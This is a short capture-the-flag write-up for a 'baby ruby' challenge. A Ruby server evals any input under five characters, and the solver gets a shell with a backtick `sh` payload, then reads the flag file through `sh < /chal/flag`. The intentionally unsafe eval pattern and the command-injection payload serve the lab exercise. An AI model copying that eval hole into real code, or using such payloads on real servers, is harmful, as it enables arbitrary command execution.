

# baby ruby
> How well do you know your Ruby?

> The flag is at /chal/flag.

## About the Challenge
We got a server to connect and also the source code, here is the content of `ruby.rb`

```ruby
#!/usr/bin/env ruby

while input = STDIN.gets.chomp do eval input if input.size < 5 end
```

The length of the payload must < 5 and if the length of our input is under 5 characters, the code will execute our input

## How to Solve?
Because there is no filter in the code, we can spawn a shell by inputting

```
`sh`
```

And because of we can't use `cat` command. We can use this command to obtain the flag

```
sh < /chal/flag
```

So, when you run `sh < /chal/flag`, it instructs the sh shell to take the contents of the `/chal/flag` file and use it as input for shell commands



```
DUCTF{how_to_pwn_ruby_in_four_easy_steps}
```